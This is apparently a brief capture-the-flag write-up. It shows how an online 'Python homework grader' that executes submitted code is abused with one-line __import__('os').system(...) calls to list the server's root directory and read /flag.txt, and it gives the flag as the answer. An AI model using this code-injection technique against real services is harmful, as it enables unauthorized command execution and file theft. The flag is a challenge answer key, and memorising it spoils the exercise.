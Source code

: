 The prompt when connecting to this website is as follows:

    Welcome to Doctor Professor Wilson's Python 101!
    Lesson 1: hello world
    Enter homework for grading:

We're given free range to execute arbitrary code:

    Enter homework for grading:
    hello world
      File "<string>", line 1
        hello world
                  ^
    SyntaxError: unexpected EOF while parsing

One challenge is that only one line can be submitted before execution is triggered. Fortunately, we can use `__import__` to do work with modules in a one-liner:

    > __import__('os').system('ls')
    bin  boot  dev  entry.sh  etc  flag.txt  hackme.py  home  lib  lib64  media  mnt  opt  proc  requirements.txt  root  run  sbin  srv  sys  tmp  usr  var

It looks as though this command is running in `/`. Look at that, `flag.txt`!

    > __import__('os').system('cat /flag.txt')
    ThisIsAVeryFl@ggyFlag

Answer: ThisIsAVeryFl@ggyFlag
